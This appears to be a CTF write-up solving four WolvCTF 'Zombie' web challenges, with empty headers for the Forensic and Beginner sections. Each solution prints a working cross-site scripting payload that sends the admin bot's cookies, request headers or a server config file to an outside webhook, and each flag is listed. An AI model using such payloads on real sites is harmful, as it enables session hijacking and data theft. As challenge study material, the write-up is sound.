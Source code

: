 ```yaml
---
title: WolvCTF - Writeup 
published: true
---
```


![](/assets/wolvctf/Overview.png)
# Challenges Solved : 
![](/assets/wolvctf/Challenges.png)

# Web 
## ZOmbie 101
This Challenge is a a classic xss where you steal the cookie's admin. (admin is a bot who visits the url you give).

![](/assets/wolvctf/Zombie101_Overview.png)

```
Payload : <script>window.location="https://<myWebHook>/?c=".concat(document.cookie)</script>
```
I sent the url with payload to the admin input and got the flag : ```wctf{c14551c-4dm1n-807-ch41-n1c3-j08-93261} ``` 

## Zombie 201
It is the same webapp than Zombie 101, but admin activated the httponly parameter. We can't gather the cookie throught the document object.
However, debug is activated allowing to perform request to /debug endpoint.

/debug's source code : 
```
// useful for debugging cloud deployments
app.get('/debug', function(req, res) {
    if (config.allowDebug) {
        res.send({"remote-ip": req.socket.remoteAddress, ...req.headers})
    }
    else {
        res.send('sorry, debug endpoint is not enabled')
    }
})

```
I thought I could exploit xss throught this endpoint :
```
payload : 
<script>
fetch("https://zombie-201-tlejfksioa-ul.a.run.app/debug")
  .then((response) => response.json())
  .then((data) => fetch("https://<MyHook>/?/=".concat(JSON.stringify(data)), { credentials: 'include' }));
</script>
```
Flag : ```wctf{h1dd3n-c00k135-d1d-n07-h31p-373964} ``` 

## Zombie 301
In this challenge, httponly is still enabled, but debug is disabled. We can steal the admin cookie in HTTP headers by performing an HTTP request inside the website and resending the HTTP response to our webhook.
```
payload :  
<script>
fetch("https://zombie-301-tlejfksioa-ul.a.run.app/")
  .then((data) => fetch("https://webhook.site/4957c5a7-45dc-4660-9dec-8412969f79d2/?/=".concat(JSON.stringify(data)), { credentials: 'include' }));
</script>
```
Flag : ```wctf{h0w-d1d-y0u-r34d-7h3-3nv-v4r-31831}```

## Zombie 401 
This time, httonly is disabled and debug is enabled, but the flag is in a file (config.json) hosted by the server. Our goal is to exfiltrate the file content to get the flag throught XSS. I used the "file ://" URI to exfiltrate the flag :
```
<script>
fetch('file:///ctf/app/config.json')
  .then(response => response.text())
  .then(data =>  window.location="https://<MyHook>/?/=".concat(data))
  .catch(error => window.location="https://<MyHook>/?/=".concat(error));
</script>
```
flag : ``` wctf{y0u-4r3-4n-4dm1n-807-m4573r-86835} Zombie 401``` 

# Forensic


# Beginner 
